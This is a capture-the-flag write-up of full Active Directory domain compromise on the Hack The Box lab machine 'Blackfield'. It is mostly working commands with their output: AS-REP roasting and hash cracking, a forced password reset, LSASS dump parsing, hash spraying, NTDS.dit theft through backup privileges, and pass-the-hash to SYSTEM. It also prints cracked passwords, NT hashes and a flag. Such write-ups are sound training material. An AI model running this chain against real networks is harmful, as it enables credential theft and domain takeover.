This write-up details the steps taken to compromise an Active Directory environment, starting from initial reconnaissance to achieving full domain administrative control. The target IP address is **10.129.93.138**, and the domain is **BLACKFIELD.local** which is Hard Hack The Box machine.

-----

## Phase 1: Initial Reconnaissance and Enumeration

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

### Port Scanning

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.93.138 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.93.138
```

The Nmap scan revealed several common Active Directory ports (e.g., 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269), indicating a likely Windows domain controller. The domain name **BLACKFIELD.local** was identified, which was subsequently added to the `/etc/hosts` file for easier resolution.

```bash
echo "10.129.93.138 BLACKFIELD.local" | sudo tee -a /etc/hosts
```



-----

### Service Enumeration

Further enumeration was performed using `enum4linux` to gather more detailed information about the services and domain.

```bash
enum4linux -A 10.129.93.138
```






The `enum4linux` output confirmed the presence of accessible LDAP, SMB, and RPC services. It also identified the machine as a root Domain Controller, specifically **DC01.BLACKFIELD.local**. This FQDN was also added to the `/etc/hosts` file.

```bash
echo "10.129.93.138 DC01.BLACKFIELD.local" | sudo tee -a /etc/hosts
```

The domain SID was identified as `S-1-5-21-4194615774-2175524697-3563712290`. An anonymous RPC bind did not reveal any accessible shares at this stage.

-----

### User Enumeration with Kerbrute

Given that Kerberos (port 88) was open, `kerbrute` was used to perform a user enumeration attack against the domain controller. This tool attempts to validate usernames against the KDC, revealing valid user accounts.

```bash
sudo git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
sudo make all
sudo ./kerbrute_linux_amd64 userenum -d BLACKFIELD.local --dc 10.129.93.138 /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -o result.txt
```

-----

### SMB Share Enumeration

While `kerbrute` was running, SMB shares were investigated. A public share named `profiles$` was discovered.



This public share contained a significant number of user profiles, providing a valuable list of potential usernames for further attacks.



-----

### AS-REP Roasting

With a substantial list of valid usernames obtained from `kerbrute` and the `profiles$` SMB share, the next step was to identify users who do not require Kerberos pre-authentication. This vulnerability, known as AS-REP Roasting, allows an attacker to request a service ticket (TGT) for such users without providing their password, and then crack the hash offline.

```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.129.93.138 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```



The `GetNPUsers.py` script successfully identified `support@BLACKFIELD.LOCAL` as a user with no pre-authentication required, along with a hash:

`$krb5asrep$23$support@BLACKFIELD.LOCAL:b2cbf2db3f0aaeb5ed96361a19e548ed$50b14a2023ea66c35e94e4ac64a976e7222c7446a0a0db98ff2f28b06b263cd99ddcd9ffc5bc97351100d7c1431eeef4e44b84ef738048f1f1c8db6d63486ff759d6278c0d8d67f759990708e2afbf85cb9e0902e82cdde28a5d5ae570db2f761e71d832e4e893768d925533aed937e5cdad9d36fda0da7090a67d01458178fdc81fa8208d12a77de82a1eb7f585c742214eb4b81bd262b12dae2eca8cf6c1b12b1954ec288ad445b1226ea8797c5e06c02d3acb5c3f17855d5076c9ce320dbaec0f1187c2bda8135aff50545365b825905ebbed856f4af91ce487cb2f204262a68166d6b479a30018d5bf7a30cf2b8b4674c63e`

This hash was then cracked using John the Ripper with the `rockyou.txt` wordlist:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



The cracked password for `support@BLACKFIELD.LOCAL` was `#00^BlackKnight`.

Additionally, the `kerbrute` output confirmed valid usernames for `support@BLACKFIELD.local`, `guest@BLACKFIELD.local`, and `administrator@BLACKFIELD.local`.

-----

## Phase 2: Post-Compromise Enumeration and Privilege Escalation

With valid credentials for the `support` user, the next step was to map the Active Directory structure and identify potential avenues for privilege escalation.

### Active Directory Structure Mapping with BloodHound

BloodHound was used to visualize the Active Directory topology, identify relationships between users, groups, and computers, and pinpoint potential attack paths.

```bash
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.93.138 -c ALL --zip
sudo neo4j start
```

After ingesting the collected data into Neo4j and BloodHound, the `support` user was marked as "owned" to highlight our current access level. Analysis of the BloodHound graph revealed a critical finding: the `audit2020` user had a Password Not Required setting, making it a target for password changing.



-----

### Password Change for `audit2020` via RPC

Since the `support` user was not part of a remote administration group, `rpcclient` was used to force a password change for `audit2020`.

```bash
rpcclient -U blackfield/support 10.129.93.138
Password for [BLACKFIELD\support]:#00^BlackKnight
setuserinfo audit2020 23 p@ssw0rd!
```

The password for `audit2020` was successfully changed to `p@ssw0rd!`. We now have new credentials: **audit2020:p@ssw0rd\!**.

-----

### Exploring New Access with `audit2020`

Further investigation with BloodHound showed `audit2020` was a member of the `CN=audit` group, but no immediate high-value paths were apparent. The focus shifted to enumerating SMB shares accessible by `audit2020`.

```bash
impacket-smbclient blackfield.local/audit2020:"p@ssw0rd!"@10.129.93.138
```

This revealed a share named `memory_analysis`. Navigating into this share, a file named `lsass.zip` was discovered and downloaded.

```bash
cd memory_analysis
get lsass.zip
unzip lsass.zip
file lsass.DMP
```

The `lsass.DMP` file was identified as a Mini DuMP crash report, indicating a memory dump from the LSASS (Local Security Authority Subsystem Service) process. LSASS stores sensitive information, including user credentials in various formats.

-----

### Extracting Credentials from LSASS Dump with PyPyKatz

`pypykatz` was used to parse the `lsass.DMP` file and extract credentials.

```bash
pip3 install pypykatz
pypykatz lsa minidump lsass.DMP
```

The `pypykatz` output provided several valuable credentials. Key findings included:

  * **Username: svc\_backup**
      * Domain: BLACKFIELD
      * NT: `9658d1d1dcd9250115e2205d9f48400d`
  * **Username: Administrator**
      * Domain: BLACKFIELD
      * NT: `7f1e4ff8c6a8e6b6fcae2d9c0572cd62`

-----

### Lockout Policy Check

Before attempting any password spraying or Pass-the-Hash (PtH) attacks, it was crucial to understand the domain's lockout policy to avoid locking out legitimate accounts.

```bash
ldapsearch -x -D "BLACKFIELD\support" -w '#00^BlackKnight' -H ldap://10.129.93.138 -b "dc=blackfield,dc=local" "(objectClass=domain)" lockoutThreshold lockoutDuration lockoutObservationWindow maxPwdAge minPwdAge minPwdLength pwdHistoryLength pwdProperties
```

 

The lockout policy was favorable for spraying attacks, indicating a high `lockoutThreshold`.

-----

### Password Spraying with CrackMapExec (CME)

Using the extracted NT hashes from the LSASS dump, a password spraying attack was performed with `CrackMapExec` (CME) via SMB. This allowed us to test the extracted hashes against multiple user accounts.

First, the usernames and hashes were extracted and formatted for CME:

```bash
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```

The `hashes` file needed to be formatted to include the LM hash (which is often `aad3b435b51404eeaad3b435b51404ee` if not present) for CME. The final `hashes` file looked like this:

```
aad3b435b51404eeaad3b435b51404ee:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 # Administrator
aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d # svc_backup
aad3b435b51404eeaad3b435b51404ee:b624dc83a27cc29da11d9bf25efea796 # DC01$
```

Then, the CME command was executed:

```bash
cme smb 10.129.93.138 -u users -H hashes
```



The password spraying attack was successful, confirming the hash for `svc_backup`: **`svc_backup:9658d1d1dcd9250115e2205d9f48400d`**.

-----

## Phase 3: Domain Privilege Escalation and Persistence

With the `svc_backup` hash, we gained a foothold into the domain.

### WinRM Access with `svc_backup`

BloodHound confirmed that `svc_backup` was a member of the `Backups` group, which often holds `SeBackupPrivilege` and `SeRestorePrivilege`. We used `evil-winrm` to gain an interactive PowerShell session on the Domain Controller.

 


```bash
evil-winrm -i 10.129.93.138 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

Once connected, `whoami /priv` was executed to verify the privileges held by `svc_backup`:

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                          Description                           State
============================= ============================== =======
SeMachineAccountPrivilege       Add workstations to domain      Enabled
SeBackupPrivilege               Back up files and directories   Enabled
SeRestorePrivilege              Restore files and directories   Enabled
SeShutdownPrivilege             Shut down the system            Enabled
SeChangeNotifyPrivilege         Bypass traverse checking        Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

The presence of `SeBackupPrivilege` and `SeRestorePrivilege` was critical for further privilege escalation.

-----

### Retrieving `user.txt`

The `user.txt` flag was located on the `svc_backup` user's Desktop:

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> cat user.txt
3920bb317a0bef51027e2852be64b543
```

-----

### Attempting to Access `root.txt` (and why it failed)

An attempt was made to directly access the Administrator's Desktop to retrieve `root.txt` using `robocopy`, leveraging `SeBackupPrivilege`.

```powershell
robocopy /b C:\Users\Administrator\Desktop\ C:\
```

 

This attempt failed because even with `SeBackupPrivilege`, directly accessing `root.txt` within the Administrator's protected desktop via `robocopy` was not permitted in this context. This highlighted the need for a more robust method to obtain the Administrator's credentials.

-----

### Abusing `SeBackupPrivilege` and `SeRestorePrivilege` to Dump NTDS.dit

The ultimate goal was to obtain the Administrator's hash and achieve full domain compromise. This could be done by dumping the Active Directory database, `NTDS.dit`, which contains all user hashes. The `SeBackupPrivilege` allows bypassing file system permissions to back up files, making `NTDS.dit` a prime target. `SeRestorePrivilege` allows restoring files, which can be leveraged to extract `NTDS.dit` from a backup.

The process involved:

1.  Setting up an SMB share on the attacker machine to receive the `NTDS.dit` file.
2.  Using `wbadmin` on the DC to create a system state backup, which includes `NTDS.dit`.
3.  Recovering the backed-up `NTDS.dit` and the `SYSTEM` hive (which is needed to decrypt the hashes in `NTDS.dit`) to a temporary location.
4.  Downloading these files to the attacker machine via the SMB share.

First, set up an SMB server on the attacker machine (Kali Linux) to receive the files:

```bash
sudo smbserver.py share . -smb2support -username test -password test
```

From the `evil-winrm` session on the DC (`10.129.93.138`):

**1. Create a temporary directory for backup artifacts:**

```powershell
New-Item -ItemType Directory -Path "C:\temp_backup"
```

**2. Perform a backup of NTDS.dit using `wbadmin`:**
This command backs up the NTDS.dit file to a specified target. Since `wbadmin` needs a local path or a network share, we will use a local folder initially and then move the file.

```powershell
wbadmin start backup -backupTarget:C:\temp_backup -include:C:\Windows\NTDS\NTDS.dit -quiet
```

**3. Get the version identifier of the created backup:**
This is crucial for the recovery step.

```powershell
wbadmin get versions
```

*(Example output might show a version like `07/02/2025-18:08`)*

**4. Recover the `NTDS.dit` file from the backup:**
This leverages `SeRestorePrivilege`. The `-recoverytarget` specifies where the recovered file will be placed, and `-notrestoreacl` prevents restoring original ACLs, which is often helpful.

```powershell
wbadmin start recovery -quiet -version:07/02/2025-18:08 -itemtype:file -items:C:\Windows\NTDS\NTDS.dit -recoverytarget:C:\Users\svc_backup\Documents -notrestoreacl
```

*(**Learned Lesson:** Understanding the precise syntax and capabilities of `wbadmin` for backing up and recovering specific files, especially `NTDS.dit`, is critical. It's not just about `SeBackupPrivilege` but also the correct usage of the `wbadmin` utility itself. The `wbadmin` utility doesn't directly copy the `NTDS.dit` file. Instead, it performs a system state backup or a component backup that includes `NTDS.dit`. Then, the `NTDS.dit` file needs to be recovered from this backup. This two-step process (backup then recovery) is a common technique when `esentutl` cannot be used or is blocked.)*

**5. Download the `ntds.dit` file to the attacker machine:**

```powershell
download C:\Users\svc_backup\Documents\ntds.dit
```

**6. Save the `SYSTEM` hive:**
The `SYSTEM` hive is essential as it contains the boot key required to decrypt the NTLM hashes stored in `NTDS.dit`.

```powershell
reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\system.hive
```

**7. Download the `system.hive` file:**

```powershell
download C:\Users\svc_backup\Documents\system.hive
```

*(**Redemption Moment:** Successfully extracting and using the `NTDS.dit` and `SYSTEM` hive is a significant milestone, as it grants offline access to all domain hashes, including the most privileged ones. This technique demonstrates the power of leveraging `SeBackupPrivilege` for domain compromise, even without direct file system access to `NTDS.dit`.)*

-----

### Extracting Administrator Hash

With `ntds.dit` and `system.hive` downloaded, `secretsdump.py` from Impacket was used to extract all NTLM hashes, including the Administrator's hash.

```bash
secretsdump.py -system system.hive -ntds ntds.dit LOCAL
```

A snippet of the output showed:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f2478d31efea735e44fe843e51bc9444:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:0229a7a4cd52062d9480fb4dbe41d41a:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

The Administrator's NTLM hash was identified as `184fb5e5178480be64824d4cd53b99ee`.

-----

### Final Access: Pass-the-Hash as Administrator

With the Administrator's hash, a Pass-the-Hash (PtH) attack was executed using `wmiexec.py` to gain a shell as the Administrator.

```bash
wmiexec.py -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.129.93.138
```

This command successfully provided a command prompt as the `NT AUTHORITY\SYSTEM` user, effectively granting full administrative control over the Domain Controller.

